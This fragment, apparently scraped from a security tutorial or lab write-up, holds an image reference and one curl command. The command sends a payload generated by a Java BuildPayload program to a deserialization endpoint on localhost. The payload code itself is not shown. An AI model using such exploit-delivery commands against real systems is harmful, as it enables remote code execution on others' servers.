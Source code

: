 curl -X POST http://localhost:8080/product/deser --data "template=`javac BuildPayload.java;java BuildPayload`"
